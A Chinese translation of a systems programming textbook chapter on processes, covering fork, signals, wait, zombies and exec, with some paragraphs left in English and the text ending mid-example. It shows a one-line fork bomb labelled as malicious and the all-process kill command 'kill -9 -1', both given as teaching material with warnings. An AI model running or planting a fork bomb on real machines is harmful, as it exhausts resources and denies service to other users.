



---
bibliography:
- processes/processes.bib
link-citations: true
title: "**CS341 系统编程课程手册**"
---

- [[#^processes|进程]]
  - [[#^file-descriptors|文件描述符]]
  - [[#^processes-1|进程]]
  - [[#^process-contents|进程的内容]]
    - [[#^memory-layout|内存布局]]
    - [[#^other-contents|其他内容]]
  - [[#^intro-to-fork|fork 简介]]
    - [[#^a-word-of-warning|一句警告]]
    - [[#^fork-functionality|fork 的功能]]
    - [[#^fork-bomb|fork 炸弹]]
    - [[#^signals|信号]]
    - [[#^posix-fork-details|POSIX fork 细节]]
    - [[#^fork-and-files|fork 与 FILE]]
  - [[#^sec-waiting-and-executing|等待与执行]]
    - [[#^exit-statuses|退出状态]]
    - [[#^zombies-and-orphans|僵尸与孤儿]]
    - [[#^advanced-asynchronously-waiting|进阶：异步等待]]
  - [[#^exec|exec]]
    - [[#^posix-exec-details|POSIX exec 细节]]
    - [[#^shortcuts|快捷方式]]
  - [[#^the-fork-exec-wait-pattern|fork-exec-wait 模式]]
    - [[#^environment-variables|环境变量]]
  - [[#^further-reading|延伸阅读]]
    - [[#^topics|主题]]
  - [[#^questionsexercises|问题/练习]]


# 进程 ^processes

**谁需要进程隔离？**——**英特尔关于 Meltdown 和 Spectre 的市场宣传**

想要理解进程是什么，你首先得理解操作系统是什么。操作系统是一个程序，它在硬件与用户软件之间提供一层接口，同时还提供一套软件可以使用的工具。操作系统管理硬件，并为用户程序提供一种与硬件交互的统一方式——只要该操作系统能安装到那台硬件上。尽管这个概念听起来像是终极答案，但我们知道市面上存在许多不同的操作系统，各有各的怪癖与标准。作为对此的解决方案，还有一层抽象：POSIX，即可移植操作系统接口。这是一个标准（如今其实是多个标准），操作系统必须实现它才算 POSIX 兼容——我们将要研究的多数系统只是"大体符合 POSIX"，而非经过正式认证，因为正式认证代价高昂，许多厂商懒得去做。

在讨论 POSIX 系统之前，我们先弄清楚内核这个概念大体是什么意思。在一个操作系统（OS）里存在两个空间：内核空间与用户空间。内核空间是一种高权限运行模式，允许系统与硬件交互，并且有能力摧毁你的机器。用户空间是大多数应用程序运行的地方，因为它们不需要在每次操作时都动用这种级别的权限。当用户空间的程序需要更多权限时，它通过由内核执行的系统调用来与硬件交互。这多了一层安全保护，使普通用户程序无法摧毁你整个的操作系统。就本课程而言，我们讨论的是单机多用户操作系统。这类系统中有一台位于标准笔记本或台式机上的中央时钟。其他操作系统则放宽了中央时钟的要求（分布式系统），或者放宽了硬件的"标准性"（嵌入式系统）。另外还有一些不变量保证事件在特定时刻发生。

操作系统由许多不同的部分组成。可能有一个程序负责处理进来的 USB 连接，另一个程序负责保持网络连接，等等。最重要的那个是内核——尽管它本身可能是若干进程的集合——它是操作系统的核心。内核有许多重要任务，第一个是启动。

1.  计算机硬件从称为固件的只读存储器中执行代码。

2.  固件执行引导加载器，它通常符合可扩展固件接口（`EFI`），这是系统固件与操作系统之间的接口。

3.  引导加载器的引导管理器根据引导设置加载操作系统内核。

4.  你的内核执行 `init` 来
    <a href="https://en.wikipedia.org/wiki/Bootstrapping">https://en.wikipedia.org/wiki/Bootstrapping</a>
    把自己从无到有地建立起来。

5.  内核执行启动脚本，比如启动网络和 USB 处理。

6.  内核执行用户态脚本，比如启动桌面环境，然后你就可以使用你的电脑了！

当程序在用户空间中执行时，内核为用户空间中的程序提供一些重要服务。

- 调度进程与线程

- 处理同步原语（futex、互斥锁、信号量等）

- 提供 `write` 或 `read` 之类的系统调用

- 管理虚拟内存以及 `USB` 驱动等底层二进制设备

- 管理文件系统

- 处理网络上的通信

- 处理进程之间的通信

- 动态链接库

- 诸如此类，不胜枚举。

内核创建第一个进程 `init.d`（另一种选择是 system.d）。*init.d* 会启动图形用户界面、终端等程序——默认情况下，这是系统显式创建的唯一进程。其他所有进程都是由这一个进程通过系统调用 `fork` 和 `exec` 实例化出来的。

## 文件描述符 ^file-descriptors

虽然上一章提到过它们，我们还是快速回顾一下文件描述符。Julia Evans 的一本小册子给出了更多细节（<a href="#ref-evans_2018">[4]</a>）。

内核会跟踪文件描述符以及它们所指向的东西。稍后我们会学到两件事：文件描述符指向的不只是文件；以及操作系统会对它们进行跟踪。

注意，文件描述符可以在进程之间被复用，但在一个进程内部，它们是唯一的。文件描述符可能带有"位置"的概念，这类被称为可定位流。程序之所以能够完整读完磁盘上的一个文件，是因为操作系统会记录文件中的位置，而这一属性同样属于你的进程。

另一些文件描述符指向网络套接字以及其他各类信息，它们是不可定位流。

## 进程 ^processes-1

进程是一个可能正在运行的计算机程序的实例。进程手头有很多资源。每个程序在启动时会得到一个进程，但每个程序都可以创建更多进程。一个程序由以下部分组成：

- 一种二进制格式：这告诉操作系统该二进制中各个位段的情况——哪些部分是可执行的、哪些部分是常量、该包含哪些库等等。

- 一组机器指令

- 一个数字，指明从哪条指令开始执行

- 常量

- 要链接的库，以及在何处填入这些库的地址

进程很强大，但它们是隔离的！

这意味着默认情况下，任何进程都无法与另一个进程通信。

这一点很重要，因为在复杂系统中（比如伊利诺伊大学的工程工作站），不同进程很可能拥有不同的权限。你当然不会希望普通用户能通过有意或无意地修改某个进程而搞垮整个系统。你们大多数人现在应该已经意识到：如果你把下面这段代码塞进一个程序，那么在两次并行调用该程序时，变量之间是不共享的。

``` objectivec
int secrets;
secrets++;
printf("%d\n", secrets);
```

在两个不同的终端上，它们都会打印出 1 而不是 2。即使我们修改代码试图影响其他进程实例，也没有任何办法无意中去改变另一个进程的状态。不过，确实存在其他有意去改变其他进程状态的方式。

## 进程的内容 ^process-contents

### 内存布局 ^memory-layout

进程启动时会获得自己的地址空间。每个进程都会得到下面这些。

- **栈**

  栈是存放自动分配变量以及函数调用返回地址的地方。每当声明一个新变量，程序就把栈指针向下移动，为该变量预留空间。栈的这一段可写但不可执行。这一行为由 no-execute（NX）位控制，也叫 W^X（write XOR execute，写异或执行）位，它有助于防止诸如 `shellcode` 这样的恶意代码在栈上运行。

  如果栈增长得太过头——也就是它要么越过了预设边界，要么与堆相交——程序就会产生栈溢出错误，最可能的结果是 SEGFAULT。**栈默认是静态分配的；可写的空间只有固定那么多。**

- **堆**

  堆是一块连续的、会扩张的内存区域（<a href="#ref-mallocinternals">[8]</a>）。如果一个程序想分配一个生命周期由手动控制、或者大小在编译期无法确定的对象，它就会想要创建一个堆变量。

  堆起始于下文所述的数据段之上，向上增长。它的上端称为 `program break`，而 `malloc` 可能通过 `brk` 或 `sbrk` 把它往上推。

  我们将在内存分配那一章更深入地探讨这一点。这块区域同样可写但不可执行。如果系统受限，或者一个程序用尽了地址，就可能耗尽堆内存——这种现象在 32 位系统上更常见。

- **数据段**

  这一段包含两部分：已初始化的数据段和未初始化的段。此外，已初始化的数据段还分为可读部分和可写部分。

    - **已初始化数据段** 它包含程序的所有全局变量以及任何其他静态变量。

    This section starts just after the text segment and has a constant
    size because the number of globals is known at compile time.

    This section is writable
    (<a href="#ref-van1994expert">[10]</a>). Most notably,
    this section contains variables that were initialized with a static
    initializer, as follows:

    ``` objectivec
    int global = 1;
    ```

    - **未初始化数据段 / BSS** BSS 是 Block Started by Symbol 的缩写，这是一个老式的汇编器操作符。

    This contains all of your globals and any other static duration
    variables that are implicitly zeroed out.

    Example:

    ``` objectivec
    int assumed_to_be_zero;
    ```

    This variable will be zeroed; otherwise, we would have a security
    risk involving isolation from other processes. They get put in a
    different section to speed up process start up time. This section
    starts at the end of the data segment and is also static in size
    because the amount of globals is known at compile time. Currently,
    both the initialized and BSS data segments are combined and referred
    to as the data segment
    (<a href="#ref-van1994expert">[10]</a>), despite being
    somewhat different in purpose.

- **代码段**

  所有可执行指令都存放在这里；它可读（存放函数指针）但不可写。程序计数器在这个段中移动，逐条执行指令。需要注意的是，默认情况下这是程序中唯一可执行的段。如果一个程序的代码在运行期间被修改，程序很可能会 SEGFAULT。有办法绕过这一点，但本课程不会探讨。为什么它不总是从零开始？这是因为有一个叫 <a href="https://en.wikipedia.org/wiki/Address_space_layout_randomization">https://en.wikipedia.org/wiki/Address_space_layout_randomization</a> 的安全特性。造成这一情况的原因和相关解释超出了本课程的范围，但知道它的存在是有好处的。尽管如此，如果程序编译时带上 DEBUG 标志，这个地址可以变成固定的常量。

<figure data-latex-placement="H">
<p></p>
<figcaption>进程地址空间</figcaption>
</figure>

### 其他内容 ^other-contents

为了跟踪所有这些进程，你的操作系统会给每个进程一个编号，称为进程 ID（PID）。进程还会得到其父进程的 PID，称为父进程 ID（`PPID`）。每个进程都有一个父进程，那个父进程可能是 `init.d`。

进程还可能包含以下信息：

- **运行状态**——进程是正在准备、正在运行、已停止、已终止等等（更多内容见调度那一章）。

- **文件描述符**——从整数到真实设备（文件、U 盘、套接字）的一份映射表

- **权限**——文件所属的 `user` 以及进程所属的 `group`。这样进程就只能基于授予 `user` 或 `group` 的权限来执行操作，比如访问文件。有些技巧可以让一个程序以不同于启动者的用户身份运行（例如，`sudo` 会把一个由 `user` 启动的程序作为 `root` 执行）。更具体地说，一个进程有真实用户 ID（标识进程的所有者）、有效用户 ID（供非特权用户访问仅超级用户可访问的文件时使用），以及保存的用户 ID（供特权用户执行非特权操作时使用）。

- **参数**——一组字符串，告诉你的程序要以什么参数运行。

- **环境变量**——一组 `NAME=VALUE` 形式的键值对字符串，可以修改。它们常用于指定库与二进制文件的路径、程序配置设置等等。

按照 POSIX 规范，一个进程只需要一个线程和地址空间，但大多数内核开发者和用户都知道只有这些是不够的（<a href="#ref-process_def">[2]</a>）。

## fork 简介 ^intro-to-fork

### 一句警告 ^a-word-of-warning

进程分叉是一个强大而危险的工具。如果你出错了并导致 fork 炸弹，**你可能搞垮整个系统**。为降低这种可能性，可以在命令行输入 `ulimit -u 1024`，把你的最大进程数限制到一个较小的数值，比如 1024。注意，这个限制只针对该用户，也就是说如果你制造了 fork 炸弹，你就无法杀掉所有被创建的进程，因为调用 `killall` 需要你的 shell 去执行 `fork()`。相当不幸。一种解决办法是事先以另一个用户（例如 root）的身份再启动一个 shell 实例，并从那里杀进程。

另一个办法是 shell 内建的 `exec`，它会替换掉 shell 本身而不是分叉，因此在无法创建新进程时依然有效。例如，`exec kill -9 -1` 会杀掉你的所有进程。你只有一次机会，因为你的 shell 被替换掉了。

作为最后手段，重启机器。

测试 fork() 代码时，确保你对相关机器拥有 root 权限和/或物理访问权限。如果你必须在远程机器上测试 fork() 代码，记住**kill -9 -1** 能在紧急情况下救你一命。若没有做好准备，fork 可以**极其**危险。**警告到此为止。**

### fork 的功能 ^fork-functionality

`fork` 系统调用会克隆当前进程以创建一个新进程，称为子进程。这是通过复制现有进程的状态、只做少量差异调整来实现的。

- 子进程和父进程一样，会执行 `fork()` 之后的下一行。

- 顺带一提，在较老的 UNIX 系统中，父进程的整个地址空间会被直接复制，无论资源是否被修改过。现在的做法是让内核执行一次
  <a href="https://en.wikipedia.org/wiki/Copy-on-write">https://en.wikipedia.org/wiki/Copy-on-write</a>，
  这样既节省大量资源，又在时间上高效
  （<a href="#ref-Bovet:2005:ULK:1077084">[1]</a>，
  Copy-on-write 一节）。

下面是一个简单的例子：

``` C
printf("I'm printed once!\n");
fork();
// Now two processes running if fork succeeded
// and each process will print out the next line.
printf("This line twice!\n");
```

下面是这段地址空间克隆的简单例子。这个程序可能会把 42 打印两次——但 `fork()` 却在 `printf` 之后！？为什么？

``` C
#include <unistd.h> /*fork declared here*/
#include <stdio.h> /* printf declared here*/
int main() {
  int answer = 84 >> 1;
  printf("Answer: %d", answer);
  fork();
  return 0;
}
```

`printf` 这一行*确实*只被执行一次，但注意打印出的内容并没有被刷新到标准输出。没有打印换行，我们没有调用 `fflush`，也没有改变缓冲模式。因此输出文本仍然留在进程内存中等待发送。当 `fork()` 执行时，整个进程内存被复制，包括缓冲区在内。于是子进程启动时带着一个非空的输出缓冲区，它可能在程序退出时被刷新。我们说"可能"，是因为在程序异常退出时内容也可能一直未被写出。

要编写对父进程和子进程不同的代码，请检查 `fork()` 的返回值。如果 `fork()` 返回 -1，说明创建新子进程的过程中出了问题。应当检查 *errno* 中存放的值以确定发生了哪类错误。常见错误包括 `EAGAIN` 和 `ENOENT`，它们本质上分别表示"请重试——资源暂时不可用"和"没有那个文件或目录"。

类似地，返回值为 0 表示我们正运行在子进程的上下文中，而返回正整数则表示我们处在父进程的上下文中。

`fork()` 返回的正值就是子进程的进程 ID（*pid*）。

记住 fork 返回值含义的一个方法是：子进程可以调用 `getppid()` 找到自己的父进程——也就是被复制出来的那个原始进程——因此 `fork()` 不需要返回任何额外信息。然而，父进程可能有很多子进程，因此需要被明确告知这些子进程的 PID。

按照 POSIX 标准，每个进程只有一个父进程。

父进程只能从 `fork` 的返回值得知新子进程的 PID：

``` C
pid_t id = fork();
if (id == -1) exit(1); // fork failed
if (id > 0) {
  // Original parent
  // A child process with id 'id'
  // Use waitpid to wait for the child to finish
} else { // returned zero
  // Child Process
}
```

下面是个有点傻的例子。它会打印出什么？试着用多个参数运行这个程序。

``` C
#include <unistd.h>
#include <stdio.h>
int main(int argc, char **argv) {
  pid_t id;
  int status;
  while (--argc && (id=fork())) {
    waitpid(id,&status,0); /* Wait for child*/
  }
  printf("%d:%s\n", argc, argv[argc]);
  return 0;
}
```

再来看一个例子。这个惊人的并行表观 O(N) 的 *sleepsort* 是今天的傻人冠军。它最早发布于
<a href="https://dis.4chan.org/read/prog/1295544154">https://dis.4chan.org/read/prog/1295544154</a>。
下面展示了这种糟糕但有趣的排序算法的一个版本。这个排序算法可能无法产生正确输出。

``` objectivec
int main(int c, char **v) {
  while (--c > 1 && !fork());
  int val  = atoi(v[c]);
  sleep(val);
  printf("%d\n", val);
  return 0;
}
```

设想我们这样运行这个程序

    $ ./ssort 1 3 2 4

<figure data-latex-placement="H">
<p></p>
<figcaption>对 1、3、2、4 排序的时序图</figcaption>
</figure>

该算法其实并不是 O(N)，原因在于系统调度器的工作方式。本质上，这个程序把真正的排序工作外包给了操作系统。

### fork 炸弹 ^fork-bomb

"fork 炸弹"就是我们前面警告过你的东西。当有人试图创建无穷多个进程时就会发生。这往往会让系统几近停摆，因为它要为数以万计的就绪进程分配 CPU 时间和内存。系统管理员不喜欢它们，可能会给每个用户可拥有的进程数设上限，或者直接撤销登录权限，因为它们会给其他用户的程序带来干扰。程序可以用 `setrlimit()` 来限制所创建的子进程数量。

fork 炸弹未必是恶意的——它们有时是编程错误导致的。下面是一个简单的恶意例子。

``` objectivec
while (1) fork();
```

如果调用 fork 时不小心，特别是在循环里，很容易造成 fork 炸弹。你能看出这里的 fork 炸弹吗？

``` objectivec
#include <unistd.h>
#define HELLO_NUMBER 10

int main(){
  pid_t children[HELLO_NUMBER];
  int i;
  for(i = 0; i < HELLO_NUMBER; i++){
    pid_t child = fork();
    if(child == -1) {
      break;
    }
    if(child == 0) {
      // Child
      execlp("ehco", "echo", "hello", NULL);
    }
    else{
      // Parent
      children[i] = child;
    }
  }

  int j;
  for(j = 0; j < i; j++){
    waitpid(children[j], NULL, 0);
  }
  return 0;
}
```

我们把 `ehco` 拼错了，所以 `exec` 调用失败了。这意味着什么？我们没有创建 10 个进程，而是创建了 *1024 个进程，把我们的机器炸了*。**我们该怎么避免这种情况？在 exec 之后立刻加上 exit，这样如果 exec 失败，就不会无休止地调用 fork。** 此外还有各种其他办法。假如我们把 `echo` 这个二进制文件删掉会怎样？如果二进制文件本身就制造 fork 炸弹呢？

### 信号 ^signals

我们要到课程末尾才会完整探讨信号，但现在有必要先提一下，因为与 fork 以及其他函数调用相关的各种语义都说明了信号是什么。

信号可以看作一种软件中断。这意味着一个收到信号的进程会停止当前程序的执行，转而让程序对该信号做出响应。

操作系统定义了各种信号，其中有两个你可能已经知道：SIGSEGV 和 SIGINT。前者由非法内存访问引起，后者由用户发出、目的是终止程序。在每种情况下，程序都会从当前执行的那一行跳转到信号处理函数。如果程序没有提供信号处理函数，就会执行一个默认处理函数——比如终止程序，或者忽略该信号。

下面是一个简单的用户自定义信号处理函数示例：

``` objectivec
void handler(int signum) {
  write(1, "signaled!", 9);
  // we don't need the signum because we are only catching SIGINT
  // if you want to use the same piece of code for multiple
  // signals, check the signum
}
int main() {
  signal(SIGINT, handler);
  while(1) ;
  return 0;
}
```

信号在其生命周期中有四个状态：已生成、待决、已阻塞和已接收。它们分别指进程生成信号、内核即将投递信号、信号被阻塞，以及内核投递信号的时刻，每一步都需要一些时间才能完成。更多内容请阅读信号一章的引言。

这些术语很重要，因为 fork 和 exec 会根据信号所处的状态执行不同的操作。

需要指出的是，把信号用在程序逻辑中——即发送一个信号来触发某个操作——通常是不良编程实践。原因在于：信号没有投递的时间框架，也不保证一定会被投递。两个进程之间有更好的通信方式。

如果你想深入了解，可以直接跳到关于 POSIX 信号的章节读一遍。它不长，能让你全面了解如何处理进程中的信号。

### POSIX fork 细节 ^posix-fork-details

POSIX 详细规定了 fork 的各项标准
（<a href="#ref-fork_2018">[6]</a>）。你可以读一读前面的引用，但要注意它可能相当冗长。下面是相关内容的摘要：

1.  fork 成功时返回一个非负整数。

2.  子进程会继承父进程所有已打开的文件描述符。这意味着如果父进程读取了文件的一半然后 fork，子进程会从那个偏移量开始。在子进程一端进行的读取会按同样的量移动父进程的偏移量。其他任何标志位也会被继承。

3.  待决信号不会被继承。这意味着如果父进程有一个待决信号并创建了子进程，那么除非另一个进程给子进程发信号，否则子进程不会收到该信号。

4.  新进程将以单个线程创建（后面会详细讨论。一般共识是不同时创建进程和线程）。

5.  由于我们采用了写时复制（COW），只读内存在进程之间是共享的。

6.  如果程序设置了某些内存区域，它们可以在进程之间共享。

7.  信号处理函数会被继承，但可以被更改。

8.  进程当前的工作目录（常缩写为 CWD）会被继承，但可以被更改。

9.  环境变量会被继承，但可以被更改。

父子进程之间的主要差异包括：

- `getpid()` 返回的进程 ID。以及 `getppid()` 返回的父进程 ID。

- 子进程结束时，父进程会通过信号 SIGCHLD 得到通知，但反过来不会。

- 子进程不继承待决信号和定时器告警。完整列表请看
  <a href="http://man7.org/linux/man-pages/man2/fork.2.html">http://man7.org/linux/man-pages/man2/fork.2.html</a>

- 子进程拥有自己的一套环境变量。

### fork 与 FILE ^fork-and-files

在使用 `FILE` 和 fork 时会有一些棘手的边界情况。首先我们得做一个技术上的区分。**文件描述对象**是文件描述符所指向的结构体。文件描述符可以指向许多不同的结构体，但就我们的目的而言，它们指向的是一个代表文件系统上某个文件的结构体。这个文件描述对象包含路径、描述符已经读入文件多远之类的元素。文件描述符指向文件描述对象。这一点很重要，因为当一个进程被 fork 时，只有文件描述符被克隆，描述对象并没有被克隆。下面这段代码只有一个描述对象。

``` objectivec
int file = open(...);
  if(!fork()) {
    read(file, ...);
  } else {
    read(file, ...);
  }
```

一个进程会读文件的一部分，另一个进程会读文件的另一部分。在下面的例子中，由于两个不同的文件句柄，存在两个描述对象。

``` objectivec
if(!fork()) {
    int file = open(...);
    read(file, ...);
  } else {
    int file = open(...);
    read(file, ...);
  }
```

我们来考虑最初的那个例子。

``` bash
$ cat test.txt
A
B
C
```

看看这段代码，它做了什么？

``` objectivec
size_t buffer_cap = 0;
char * buffer = NULL;
ssize_t nread;
FILE * file = fopen("test.txt", "r");
while((nread = getline(&buffer, &buffer_cap, file)) != -1) {
  printf("%s", buffer);
  if(fork() == 0) { 
    exit(0);
  }
  wait(NULL);
}
```

最初的直觉可能是它会逐行打印文件，外加一些 fork。实际上这是未定义行为，因为并没有准备好文件描述符。长话短说，要避免这个例子应该这样做。

1.  作为程序员，你需要确保在 fork 之前所有文件描述符都已准备好。

2.  如果它是一个文件描述符，或者是一个未缓冲的 `FILE*`，那么它已经准备好了。

3.  如果 `FILE*` 已为读取而打开并已被完整读取，那么它已经准备好了。

4.  否则，`FILE*` **必须**经过 `fflush` 或被关闭才算准备好。

5.  如果文件描述符已准备好，那么当子进程在使用它时，它在父进程中必须处于非活跃状态，反之亦然。当一个进程读了或写了它，或者该进程*出于任何原因*调用了 `exit`，就说明该进程正在使用它。如果两个进程都在使用它，整个应用程序的行为就是未定义的。

那么我们该怎么修复这段代码？我们必须在 fork 之前刷新文件，并且在 `wait` 调用之前不使用它——更多细节见下一节。

``` objectivec
size_t buffer_cap = 0;
char * buffer = NULL;
ssize_t nread;
FILE * file = fopen("test.txt", "r");
while((nread = getline(&buffer, &buffer_cap, file)) != -1) {
  printf("%s", buffer);
  fflush(file);
  if(fork() == 0) { 
    exit(0);
  }
  wait(NULL);
}
```

如果父进程和子进程需要异步执行，并且需要保持文件句柄打开，该怎么办？由于事件顺序的原因，我们需要确保父进程知道子进程已经用完 `wait`。我们会在后面的章节讨论进程间通信，但现在可以使用双重 fork 方法。

``` objectivec
//... 
fflush(file);
pid_t child = fork();
if(child == 0) { 
  fclose(file);
  if (fork() == 0) {
    // Do asynchronous work
    // Safe exit, this child doesn't know about
    // the file descriptor
    exit(0);
  }
  exit(0);
}
waitpid(child, NULL, 0);
```

如果你对它的工作方式感兴趣，可以查阅附录中对 fork-文件问题的说明。

## 等待与执行 ^sec-waiting-and-executing

如果父进程想等待子进程结束，它必须使用 `waitpid`（或 `wait`），两者都会等待某个子进程改变进程状态，状态可能是以下之一：

1.  子进程终止了

2.  子进程被信号停止了

3.  子进程被信号恢复了

注意 waitpid 可以设置为非阻塞，也就是说它会立即返回，让程序知道子进程是否已经退出。

``` objectivec
pid_t child_id = fork();
if (child_id == -1) { perror("fork"); exit(EXIT_FAILURE);}
if (child_id > 0) {
  // We have a child! Get their exit code
  int status;
  waitpid( child_id, &status, 0 );
  // code not shown to get exit status from child
} else { // In child ...
  // start calculation
  exit(123);
}
```

`wait` 是 `waitpid` 的一个更简单的版本。`wait` 接受一个整数的指针，并等待任意一个子进程。第一个子进程改变状态后，`wait` 返回。`waitpid` 的行为如下：

1.  程序*可以*等待一个特定的进程，也可以为 `pid` 传入特殊值来做不同的事情（查阅 man 手册）。

2.  waitpid 的最后一个参数是选项参数。可选项如下：

    1.  WNOHANG —— 返回被查找进程是否已退出

    2.  WNOWAIT —— 等待，但让该子进程仍可被另一次 wait 调用等待

    3.  WEXITED —— 等待已退出的子进程

    4.  WSTOPPED —— 等待已停止的子进程

    5.  WCONTINUED —— 等待已继续运行的子进程

上面两个调用的退出状态，或存入整数指针中的值，解释如下。

### 退出状态 ^exit-statuses

要获取子进程 `main()` 的返回值，或 `exit()` 中包含的值，请使用 `Wait macros`。程序通常会使用 `WIFEXITED` 和 `WEXITSTATUS`。更多信息请看 `wait`/`waitpid` 的 man 手册。

``` objectivec
int status;
pid_t child = fork();
if (child == -1) {
  return 1; //Failed
}
if (child > 0) {
  // Parent, wait for child to finish
  pid_t pid = waitpid(child, &status, 0);
  if (pid != -1 && WIFEXITED(status)) {
    int exit_status = WEXITSTATUS(status);
    printf("Process %d returned %d" , pid, exit_status);
  }
} else {
  // Child, do something interesting
  execl("/bin/ls", "/bin/ls", ".", (char *) NULL); // "ls ."
}
```

一个进程只能有 256 个返回值，其余的位是信息性的，这些信息通过位移提取。不过内核有一套内部方式来跟踪被信号终止、已退出或已停止的进程。这套 API 做了抽象，以便内核开发者可以随意更改它。记住：这些宏只有在前提条件满足时才有意义。例如，进程的退出状态（`WEXITSTATUS`）只有在该进程正常退出（`WIFEXITED`）时才有定义，而杀死它的信号（`WTERMSIG`）只有在该进程是被信号终止时（`WIFSIGNALED`）才有定义。这些宏不会替程序做检查，因此要保证逻辑正确就得靠程序员自己。以上面的程序为例，它应该用 `WIFSTOPPED` 检查进程是否被停止，然后用 `WSTOPSIG` 找出使它停止的信号。因此，下面的内容你不必背。这是状态变量内部如何存储信息的高层概览，来自一个老版本 Berkeley 标准发行版（BSD）内核的 `sys/wait.h`
（<a href="#ref-sys/wait.h">[9]</a>）：

``` objectivec
/* If WIFEXITED(STATUS), the low-order 8 bits of the status. */
#define _WSTATUS(x) (_W_INT(x) & 0177)
#define _WSTOPPED 0177    /* _WSTATUS if process is stopped */
#define WIFSTOPPED(x) (_WSTATUS(x) == _WSTOPPED)
#define WSTOPSIG(x) (_W_INT(x) >> 8)
#define WIFSIGNALED(x)  (_WSTATUS(x) != _WSTOPPED && _WSTATUS(x) != 0)
#define WTERMSIG(x) (_WSTATUS(x))
#define WIFEXITED(x)  (_WSTATUS(x) == 0)
```

退出码有一些约定。如果进程正常退出并且一切成功，那么应该返回零。除此之外就没有太多被广泛接受的约定了。如果一个程序用特定的返回码表示特定情况，它或许能让那 256 个错误码更有意义一些。例如，程序在进入阶段 1（比如写文件）时可以返回 `1`，做别的事情时返回 `2`，等等。通常，出于简洁考虑，UNIX 程序并不会被设计成遵循这一策略。

### 僵尸与孤儿 ^zombies-and-orphans

进程等待自己的子进程是一种良好实践。如果父进程不等待子进程，它们就会变成所谓的僵尸。子进程终止时会产生僵尸，随后在你的进程的内核进程表中占据一个位置。进程表会跟踪关于进程的以下信息：PID、状态，以及它是如何被杀死的。摆脱僵尸的唯一办法是其父进程等待它。如果一个长时间运行的父进程从不等待它的子进程，它可能会失去 fork 的能力。

话虽如此，程序并不总是需要等待子进程！父进程可以继续执行代码而不必等待子进程。如果父进程在没有等待子进程的情况下就死了，一个进程就可能把自己的子进程变成孤儿。一旦父进程结束，它的任何子进程都会被分配给 `init`——第一个进程，其 PID 为 1。因此，这些子进程会看到 `getppid()` 返回值 1。这些孤儿最终会结束，并在短时间内变成僵尸。init 进程会自动等待它的所有子进程，从而把这些僵尸从系统中清除。

### 进阶：异步等待 ^advanced-asynchronously-waiting

警告：本节用到了尚未完全介绍的信号。子进程完成时父进程会收到 SIGCHLD 信号，因此信号处理函数可以等待该进程。下面是一个略作简化的版本。

``` objectivec
pid_t child;

void cleanup(int signal) {
  int status;
  waitpid(child, &status, 0);
  write(1,"cleanup!\n",9);
}
int main() {
  // Register signal handler BEFORE the child can finish
  signal(SIGCHLD, cleanup); // or better - sigaction
  child = fork();
  if (child == -1) { exit(EXIT_FAILURE);}

  if (child == 0) {
    // Do background stuff e.g. call exec
  } else { /* I'm the parent! */
    sleep(4); // so we can see the cleanup
    puts("Parent is done");
  }
  return 0;
}
```

不过，上面的例子遗漏了几个微妙的要点。

1.  可能有多个子进程已经完成，但父进程只会收到一次 SIGCHLD 信号（信号不会排队）

2.  SIGCHLD 信号还可能因其他原因产生（例如子进程暂时停止）

3.  它使用的是已废弃的 `signal` 代码，而不是可移植性更好的 sigaction。

下面是一段更健壮的、用来回收僵尸进程的代码。

``` objectivec
void cleanup(int signal) {
  int status;
  while (waitpid((pid_t) (-1), 0, WNOHANG) > 0) {

  }
}
```

## exec ^exec

要让子进程执行另一个程序，请在 fork 之后使用 `exec` 系列函数之一。`exec` 系列函数用指定程序的映像替换进程映像。这意味着 `exec` 调用之后的任何代码行都会被所执行程序的代码替换。程序希望子进程做的其他任何工作，都应该在 `exec` 调用之前完成。这些命名方案可以按助记方式缩写。

1.  e —— 显式地把一个环境变量指针数组传递给新的进程映像。

2.  l —— 命令行参数以（列表的）形式逐个传给该函数。

3.  p —— 使用 PATH 环境变量来查找要执行的、文件参数中指定名称的文件。

4.  v —— 命令行参数以指针数组（向量）的形式传给该函数。

注意，如果信息是通过数组传递的，那么最后一个元素后面必须跟一个 NULL 元素来终止数组。

下面是一个示例代码。这段代码执行 `ls`

``` objectivec
#include <unistd.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <stdlib.h>
